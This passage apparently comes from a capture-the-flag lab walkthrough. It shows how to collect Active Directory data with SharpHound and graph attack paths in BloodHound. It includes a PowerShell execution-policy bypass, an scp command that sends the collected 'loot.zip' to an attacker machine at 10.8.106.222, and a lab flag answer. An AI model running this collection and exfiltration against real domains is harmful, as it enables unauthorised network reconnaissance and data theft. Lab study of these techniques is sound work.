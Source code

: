 `POST{P0W3RV13W_FTW12**123:))}`

## Enumeration w/ Bloodhound

Bloodhound is a graphical interface that allows you to visually map out the network. This tool along with SharpHound which similar to PowerView takes the user, groups, trusts etc. of the network and collects them into .json files to be used inside of Bloodhound.

Well be focusing on how to collect the .json files and how to import them into Bloodhound

I have already taken the time to put SharpHound onto the machine

![](https://i.imgur.com/BAT2ZAH.png)

**BloodHound Installation -**

1. `apt-get install bloodhound`
2. `neo4j console` - default credentials -> neo4j:neo4j

**Getting loot w/ SharpHound -**

1. `powershell -ep bypass` same as with PowerView
2. `. .\Downloads\SharpHound.ps1`
3. `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
   1. ![](https://i.imgur.com/Qv1Abv6.png)
4. Transfer the loot.zip folder to your Attacker Machine

note: you can use scp to transfer the file if you’re using ssh

**Mapping the network w/ BloodHound -**

1. `bloodhound` Run this on your attacker machine not the victim machine
2. Sign In using the same credentials you set with Neo4j
   1. ![](https://i.imgur.com/thfZUOy.png)
3. Inside of Bloodhound search for this icon ![](https://i.imgur.com/rXgtiuK.png) and import the loot.zip folder

note: On some versions of BloodHound the import button does not work to get around this simply drag and drop the loot.zip folder into Bloodhound to import the .json files

4. To view the graphed network open the menu and select queries this will give you a list of pre-compiled queries to choose from.

![](https://i.imgur.com/4LSMKBX.png)

The queries can be as simple as find all domain admins -

![](https://i.imgur.com/Eced2zF.png)

Or as complicated as shortest path to high value targets -

![](https://i.imgur.com/1orYd9p.png)

There are plenty of queries to choose from and enumerate connections inside of the network

```
PS C:\Users\Administrator> . .\Downloads\SharpHound.ps1
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -Zip
FileName loot.zip
------------------------------------------------
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
Compressing data to C:\Users\Administrator\20201120142947_loot.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 2:29 PM on 11/20/2020! Happy Graphing!

PS C:\Users\Administrator> scp -o StrictHostKeyChecking=no .\20201120142947_loot.zip kali@10.8.106.222:/home/kali/CTFs/tryhackme
Warning: Permanently added '10.8.106.222' (ECDSA) to the list of known hosts.
```
